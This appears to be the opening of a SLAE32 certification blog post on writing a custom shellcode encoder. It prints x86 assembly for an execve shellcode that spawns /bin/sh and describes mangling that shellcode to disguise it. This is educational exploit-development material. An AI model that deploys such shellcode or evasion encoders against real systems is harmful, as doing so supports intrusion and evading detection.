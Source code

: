 ```yaml
---
title: "SLAE32: Creation of custom encoding scheme"
author: Travis Mathison
date: 2018-01-19 12:00:00 +0800
categories: [SLAE32]
tags: [assembly, x86, penetration-testing, hacking, exploit-development, shellcode, slae32]
---
```


### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #4

---

## Goals
* Take a simple shellcode that uses execve to spawn /bin/sh and run it through a custom encoder
* Explain the custom encoder and show it executing

## What is an encoder?
An encoder can be defined as an implementation of transforming data from one format to another using a publicly known scheme that can be reversed.  That is, it is not a form of encryption but rather a way to compress or change the form of data.  In this case, known shellcode will be mangled by both shifting bytes around and inserting bytes.  Upon decoding the reverse will happen which will allow the shellcode to run again.

## The shellcode to encode
The following shellcode will spawn /bin/sh when executed. This will be the basis of what we will encode with the custom encoder.
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes)
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```
